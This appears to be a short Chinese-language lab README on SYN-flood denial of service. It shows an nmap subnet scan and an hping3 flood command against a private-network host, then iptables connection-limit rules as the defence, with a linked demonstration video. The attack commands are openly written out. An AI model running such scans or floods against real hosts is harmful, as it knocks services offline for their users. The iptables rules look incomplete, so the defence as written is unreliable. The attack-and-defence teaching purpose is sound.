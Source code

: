 # DoS攻擊與防護
## 攻擊端
攻擊端先利用nmap掃描啟動中的ip和正在啟用的端口 
```
nmap -O -p 80 192.168.0.* 
```
> 掃描192.168.0.0到192.168.0.255之間port為80的主機

例如找到192.168.0.121有開放80端口後開始使用hping3攻擊開始攻擊 
```
hping3 --flood -S -p 80 -d 120 -v 192.168.0.121 
```
> 利用泛洪方式攻擊192.168.0.121的80端口發送120BYTES大小的syn封包
  
## 防護端
### Linux的iptables
```
iptables -I INPUT -p tcp --dport 80 -m connlimit --connlimit-above 10 -j REJECT  
iptables -A INPUT -p tcp --dport 80 -m recent --name BAD_HTTP_ACCESS --update --second 6
```
上述兩個指令表達是在6秒內相同IP請求連線次數超過10個即拒絕回應

參考資料([Linux 下用 iptables 預防 DDOS](https://www.youtube.com/watch?v=ivcXCg2x05o))
## 影片說明
本次有實際防範影片，駭客用上述hping3的攻擊指令導致Http Server無法服務，但伺服器有在防火牆上做上述過濾規則，導致只有駭客IP被回絕的成效。   
成果影片：[DoS防護](https://www.youtube.com/watch?v=ivcXCg2x05o)
